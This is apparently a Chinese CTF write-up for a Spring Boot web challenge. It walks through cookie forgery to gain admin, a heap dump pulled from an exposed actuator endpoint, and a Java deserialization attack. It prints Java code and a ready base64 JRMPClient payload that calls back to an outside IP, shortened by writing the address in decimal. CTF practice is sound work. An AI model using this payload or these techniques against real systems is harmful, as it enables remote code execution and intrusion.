 # web5

自己写了一个简单的springboot项目

随便注册一个账号密码登录，看到提示

![image-20240320192518916](image/web5 wp/image-20240320192518916.png)

访问被拒绝，看来是需要获得账号密码或者提权

看到报错,知道是springboot

![image-20240320192552718](image/web5 wp/image-20240320192552718.png)

访问source，抓包看到cookies base64解码一下看看

![image-20240320193214613](image/web5 wp/image-20240320193214613.png)

直接修改成admin，下载到源码

![image-20240320193341389](image/web5 wp/image-20240320193341389.png)

可以看到开了management.endpoints.web.exposure.include

![image-20240320193508761](image/web5 wp/image-20240320193508761.png)

存在内存泄漏，我们可以访问

![image-20240320193705522](image/web5 wp/image-20240320193705522.png)

然后我们可以直接下载一个当前运行jar的内存快照

![image-20240320193742391](image/web5 wp/image-20240320193742391.png)

直接分析一下

![image-20240320194153416](image/web5 wp/image-20240320194153416.png)

看到一串奇怪的字符 base32解密之后得到

flag1{I_d0n_n0t_

看源码，看到路径Lunat1cs_backd00r存在一个反序列化

![image-20240320194405217](image/web5 wp/image-20240320194405217.png)

spring2.x自带有缺陷的jackson，可以直接打

长度限制为222 正常的bypass和缩短肯定是不行的，只能使用其他的方法

环境出网，可以打exploit/JRMPListener+payloads/JRMPClient

```java
String command = "111.229.202.164:2333";
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {

            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(0); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
```

长度224 超了

![image-20240320194906066](image/web5 wp/image-20240320194906066.png)

换成10进制即可

```
rO0ABXNyAC1qYXZhLnJtaS5zZXJ2ZXIuUmVtb3RlT2JqZWN0SW52b2NhdGlvbkhhbmRsZXIAAAAAAAAAAgIAAHhyABxqYXZhLnJtaS5zZXJ2ZXIuUmVtb3RlT2JqZWN002G0kQxhMx4DAAB4cHczAApVbmljYXN0UmVmAAoxODc3MzMwNTk2AAAJHQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAeA==
```

直接打就可以了

![image-20240320203626447](image/web5 wp/image-20240320203626447.png)

![image-20240320203646865](image/web5 wp/image-20240320203646865.png)

![image-20240320203706314](image/web5 wp/image-20240320203706314.png)

得到后半段flag

![image-20240320203723222](image/web5 wp/image-20240320203723222.png)

l1ke_study_jama_QAQ}

flag为

flag{I_d0n_n0t_l1ke_study_jama_QAQ}